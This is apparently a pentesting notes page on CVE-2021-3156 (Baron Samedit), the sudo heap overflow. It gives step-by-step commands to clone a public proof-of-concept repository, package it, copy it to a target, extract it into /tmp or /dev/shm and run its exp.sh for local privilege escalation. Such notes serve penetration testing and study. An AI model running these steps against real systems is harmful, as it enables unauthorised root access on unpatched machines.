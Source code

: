 title: Sudo Baron Samedit

**CVE-2021-3156**

In January 2021 Qualys released a blog post [CVE-2021-3156: Heap-Based Buffer Overflow in Sudo (Baron Samedit)](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit) detailing a vulnerability that has existed in `sudo` for over a decade. 

An [Proof Of Concept](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156) by [LockedByte](https://github.com/lockedbyte) can be used to exploit this vulnerability on unpatched systems.

```
git clone git@github.com:lockedbyte/CVE-Exploits.git
```

This repo contains a few different exploits, we only care about the contents of `CVE-2021-3156`. The quickest way to get this to our target is to compress the directory

```
tar -cvzf exploit.tgz CVE-2021-3156
```

Once compressed use your preferred method to copy `exploit.tgz` to your target. Once copied over & extract into either `/tmp` or `/dev/shm` which should be writable by any user.

```
tar -zxvf exploit.tgz
```

Once extracted change into the directory and run the `exp.sh`

```
cd CVE-2021-3156
chmod +x ./exp.sh
./exp.sh
```
